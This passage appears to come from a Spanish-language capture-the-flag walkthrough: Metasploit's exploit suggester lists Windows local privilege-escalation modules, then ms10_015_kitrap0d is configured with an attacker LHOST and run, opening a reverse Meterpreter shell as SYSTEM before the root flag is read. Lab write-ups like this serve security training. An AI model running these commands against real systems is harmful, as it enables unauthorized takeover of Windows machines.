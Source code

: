 ```
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Windows Windows Server 2008 build detected!                                                                                                                              
 2   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.
 3   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
 5   exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.
 6   exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.

[*] Post module execution completed
```

Nos aparecera todo eso, veremos que ha encontrado `6` posibles vulnerabilidades, pero la que mas nos llama la atencion es la siguiente:

```
exploit/windows/local/ms10_015_kitrap0d
```

Vamos a utilizarlo haciendo lo siguiente:

```
use use exploit/windows/local/ms10_015_kitrap0d
```

Ahora lo configuraremos de la siguiente forma:

```shell
set SESSION <ID_SESSION>
set LHOST <IP_ATTACKER>
set LPORT <PORT>
exploit
```

Info:

```
[*] Started reverse TCP handler on 192.168.1.146:4444 
[*] Reflectively injecting payload and triggering the bug...
[*] Launching msiexec to host the DLL...
[+] Process 2580 launched.
[*] Reflectively injecting the DLL into 2580...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (177734 bytes) to 192.168.1.153
[*] Meterpreter session 2 opened (192.168.1.146:4444 -> 192.168.1.153:49175) at 2025-03-25 08:29:24 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

Por lo que vemos ya seremos `administradores` del sistema, por lo que nos habremos pasado la maquina, leeremos la flag del `admin`.

> root.txt

```
hdgrfvv45478fhrfcdnc7vg2fw44f
```
